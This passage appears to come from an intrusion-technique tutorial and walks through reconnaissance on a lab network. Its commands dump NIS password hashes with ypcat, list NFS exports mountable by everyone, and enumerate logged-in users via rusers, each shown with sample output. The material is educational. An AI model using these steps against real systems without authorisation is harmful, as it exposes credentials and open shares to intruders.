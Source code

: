 ```bash
cat /etc/yp.conf
```

```
domain charly server charly
```

```bash
ypwhich        #what is my NIS server?
```

```
charly        #bingo, it responds ;)
```

```bash
ypcat -k passwd.byname
```

```
...
fguest fguest:B4wLh7jxO1eZA:5555:5555:Compte temporaire:/home/fguest:/bin/bash
raynal raynal:YP5.ojuxdA/6.:10943:21196:Frederic Raynal:/home/raynal:/bin/bash
...
[raynal@kelly intrusion]$ ypcat -k netgroup
angels (charly,,) (bosley,,) (kelly,,) (jil,,) (sabrina,,)
```

- When the target machine exports directories via NFS, it is sometimes possible to know them using the showmount command:

```bash
showmount -e charly
```

```
/var/spool/mail  angels
/home/web/www    (everyone)
/home            angels
/opt/download    jil
```

We find here the netgroup angels discovered previously in the NIS database. Directories exported to everyone (indicated by (everyone)) are then accessible on the test machine via mount -t nfs <target>:<directory> /mnt/target.

- Still among RPCs, here are some less common servers:

- ruserd reveals users connected to a machine:

```bash
rusers -l charly
```

```
        raynal   charly:tty1 Jun 16 18:11     :51 
        raynal   charly:pts/ Jun 16 18:11          (:0)
        raynal   charly:pts/ Jun 16 18:11      :19 (:0)
        raynal   charly:pts/ Jun 16 18:11      :06 (:0)
        raynal   charly:pts/ Jun 16 18:11      :20 (:0)
        raynal   charly:pts/ Jun 16 18:59      :03 (bosley)
```
